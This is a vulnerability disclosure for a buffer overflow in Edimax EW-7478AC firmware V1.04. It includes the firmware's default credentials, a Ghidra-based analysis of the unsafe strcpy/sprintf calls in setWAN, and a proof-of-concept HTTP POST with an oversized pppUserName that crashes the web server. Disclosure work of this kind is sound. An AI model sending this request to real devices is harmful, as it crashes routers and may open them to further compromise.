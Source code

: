 ## **Description**

A buffer overflow vulnerability was discovered in the Edimax EW-7478AC firmware version ​**V1.04**. The vulnerability arises from the improper input validation of the `pppUserName` parameter in the 'setWAN' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7478AC
- ​**Version**: V1.04

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW7478APC_1.04.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'setWAN' is below:
![vulner_code.png](./img/vulner_code.png)

- ​**websGetVar** retrieves POST parameters.
- ​**strcpy()**, **sprintf()** is used without length checks, leading to a ​buffer overflow.
- **system()** is used without check, so there may be a command injection in this place


## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/setWAN HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 332
Connection: close

wanMode=2&pppUserName=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&pppPassword=test123
```

After the request the `webs` process will crash.
![result](./img/result.png)